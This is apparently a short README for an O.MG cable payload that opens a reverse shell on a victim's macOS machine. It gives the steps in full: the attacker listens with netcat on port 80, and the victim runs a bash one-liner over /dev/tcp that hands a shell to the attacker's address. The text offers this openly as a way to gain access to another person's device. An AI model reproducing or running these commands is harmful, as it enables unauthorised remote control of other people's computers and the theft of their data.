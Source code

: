 # This is, at heart, is a simple reverse shell to gain access to another MacOSX device. I'm looking into creating a tight shell that can run like a daemon
# but that is a wet dream atm.

# FIRST STEP(s):
# run "nc -l <any port>" on the attackers machine
# This initialzes your computers listening protocol to look for TCP connections
**IMPORTANT**
# open another Terminal window and run "ipconfig getifaddr en0" to obtain your computers local ip (this is important for the next step)

# NEXT STEP:
# Then simply run the script in your O.MG UI when the cable is connected

# An example of the code run on the attackers computer:
    nc -l 80

# An example of the code run on the victims computer:
    bash -i >& /dev/tcp/10.0.0.1/80 0>&1
